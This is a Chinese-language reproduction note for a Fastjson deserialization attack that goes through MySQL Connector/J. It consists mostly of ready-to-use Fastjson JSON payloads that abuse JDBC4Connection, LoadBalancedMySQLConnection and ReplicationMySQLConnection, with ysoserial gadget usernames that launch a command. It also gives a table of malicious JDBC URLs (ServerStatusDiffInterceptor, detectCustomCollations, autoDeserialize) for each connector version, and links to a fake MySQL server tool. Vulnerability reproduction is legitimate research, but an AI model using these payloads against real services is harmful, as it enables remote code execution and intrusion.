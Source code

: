 ## Fastjson MySQL gadget复现



### 漏洞复现



payload：**{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }**

其中{ \"user\": \"yso_CommonsBeanutils1_calc\"是`yso\_是固定（反序列化）CommonsBeanutils1\_（gadget）calc是命令`

```
        String json2="{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }";
        
        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>5.1.12</version>
        </dependency>

        
        String json2="{ \"name\": { \"@type\":\"java.lang.AutoCloseable\", \"@type\":\"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection\", \"proxy\": { \"connectionString\":{ \"url\":\"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&useSSL=false&user=yso_CommonsBeanutils1_calc\" } } }}";


        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>6.0.2</version>
        </dependency>



```



![image-20211220170706354](https://img.sumsec.me/summersec//6u07er6ec/6u07er6ec.png)





![image-20211220154409962](https://img.sumsec.me/summersec//42u44er42ec/42u44er42ec.png)



----

```json
{
       "@type":"java.lang.AutoCloseable",
       "@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
       "proxy": {
              "@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
              "connectionUrl":{
                     "@type":"com.mysql.cj.conf.url.ReplicationConnectionUrl",
                     "masters":[{
                            "host":""
                     }],
                     "slaves":[],
                     "properties":{
                            "host":"127.0.0.1",
                            "user":"yso_CommonsCollections4_calc",
                            "dbname":"dbname",
                            "password":"pass",
                            "queryInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                            "autoDeserialize":"true"
                     }
              }
       }
}
```



---

以下是MySQL反序列化漏洞影响的版本，fastjson只能打5.1.11-5.1.48(反序列化链)、6.0.2/6.0.3(反序列化)、8.0.19(反序列化链)（实测）。

### 影响版本

#### ServerStatusDiffInterceptor触发

* **<8.0.20:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。
* **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

#### detectCustomCollations触发：

* **5.1.41及以上:** 不可用
* **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.18以下的5.1.x版本：** 不可用
* **5.0.x版本不可用**



![image-20211220173824621](https://img.sumsec.me///52u3652ec52u3652ec.png)



----

### 参考

https://www.cnblogs.com/pickmea/p/15157189.html

https://github.com/fnmsd/MySQL_Fake_Server

https://mp.weixin.qq.com/s/BRBcRtsg2PDGeSCbHKc0fg